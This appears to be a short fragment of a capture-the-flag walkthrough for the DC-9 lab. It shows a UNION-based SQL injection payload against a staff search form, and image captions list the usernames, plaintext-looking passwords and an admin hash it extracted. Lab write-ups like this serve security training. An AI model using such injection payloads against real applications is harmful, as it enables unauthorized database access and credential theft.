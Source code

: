 <img src="DC-9/media/image14.png" style="width:2.5in;height:5.925in" alt="Search results Name: Mary Moe position: CEO Phone No: 46478415155456 Email: marym@example.com Name: 23 Position: marym Phone No: 3kfs86sfd Email: 6 Name: 2 3 Position: julied Phone No: 468stdfsd2 Email: 6 Name: 2 3 Position: tredt Phone No: 4std87std1 Email: 6 Name: 2 3 Position: barneyr Phone No: RocksOff Email: 6 ID: 1 Name: 23 Position: tomc Phone No: TC&amp;TheBoyz Email: 6 " />

mary' union all select 1,2,3,concat(username),concat(password),6 FROM Users -- -

<img src="DC-9/media/image15.png" style="width:3.91667in;height:3.325in" alt="Search results Name: Mary Moe Position: CEO Phone No: 46478415155456 Email: marym@example.com Name: 2 3 Position: admin Phone No: 8S6f5desgoef37314e7C3bdf6f8a66dC Email: 6 " />
